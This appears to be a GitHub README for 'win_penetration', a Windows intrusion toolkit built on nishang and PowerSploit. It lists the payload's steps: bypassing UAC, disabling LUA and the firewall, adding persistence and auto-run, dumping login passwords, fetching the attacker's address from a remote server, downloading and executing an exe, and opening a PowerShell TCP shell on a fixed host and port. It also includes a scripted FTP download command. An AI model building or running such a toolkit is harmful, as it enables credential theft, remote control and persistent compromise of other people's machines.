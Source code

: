 # win_penetration

powered by [nishang](https://github.com/samratashok/nishang), [PowerSploit](https://github.com/mattifestation/PowerSploit)

### start  
- run **`pack.bat`**

### main behaviour
- bypass UAC and extract payload to tmp directory
- run the payload script
    - add powershell root path to env path
	- copy self to temp path and powershell root path
    - turn of the LUA and firewall
	- add persistence
	- register self to auto-run
	- dump login user password
	- fetch info from remote server
	- download and excute exe
	- run PowerShellTcp listenning on 192.168.10.99:8099
	

### todo
- [x] download and excute exe
- [x] fetch attacker's ip&port on remote server
- [x] python pack helper
- [ ] rookit (Invoke-ReflectivePEInjection)
- [x] auto-run with high authority


### usefull command
```
# ftp download file

"open xxx.xxx.xxx.xxx`n[username]`n[password]`nbinary`nget [filename]`nbye" | Out-File ftp.txt
ftp -s:ftp.txt
del ftp.txt 


```